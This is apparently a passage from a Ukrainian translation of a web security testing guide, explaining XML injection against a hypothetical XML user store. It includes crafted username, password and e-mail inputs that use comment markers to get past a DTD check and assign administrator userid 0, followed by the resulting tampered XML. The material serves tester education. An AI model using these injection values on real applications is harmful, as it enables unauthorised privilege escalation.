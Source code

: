Отриманий XML-файл добре сформований. Крім того, імовірно, що для користувача tony значення, пов'язане з тегом userid, є останнім, тобто 0 (ідентифікатор адміністратора). Іншими словами, ми ввели користувача з правами адміністратора.

Єдина проблема полягає в тому, що тег userid з'являється двічі в останньому вузлі користувача. Часто XML-документи пов'язані зі схемою або DTD і будуть відхилені, якщо вони їм не відповідають.

Припустімо, що XML-документ визначено таким DTD:

```
<!DOCTYPE users [
    <!ELEMENT users (user+) >
    <!ELEMENT user (username,password,userid,mail+) >
    <!ELEMENT username (#PCDATA) >
    <!ELEMENT password (#PCDATA) >
    <!ELEMENT userid (#PCDATA) >
    <!ELEMENT mail (#PCDATA) >
]>

```

Зауважте, що вузол ідентифікатора користувача визначено з потужністю 1. У цьому випадку атака, яку ми показали раніше (та інші прості атаки), не працюватиме, якщо XML-документ перевіряється на відповідність його DTD перед початком будь-якої обробки.

Однак цю проблему можна вирішити, якщо тестувальник контролює значення деяких вузлів, що передують вузлу-порушнику (ідентифікатор користувача, у цьому прикладі). Насправді, тестувальник може закоментувати такий вузол, вставивши послідовність початку/закінчення коментаря:

```
Username: tony
Password: Un6R34kb!e</password><!--
E-mail: --><userid>0</userid><mail>s4tan@hell.com

```

У цьому випадку остаточна база даних XML виглядає так:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password><!--</password>
        <userid>500</userid>
        <mail>--><userid>0</userid><mail>s4tan@hell.com</mail>
    </user>
</users>

```
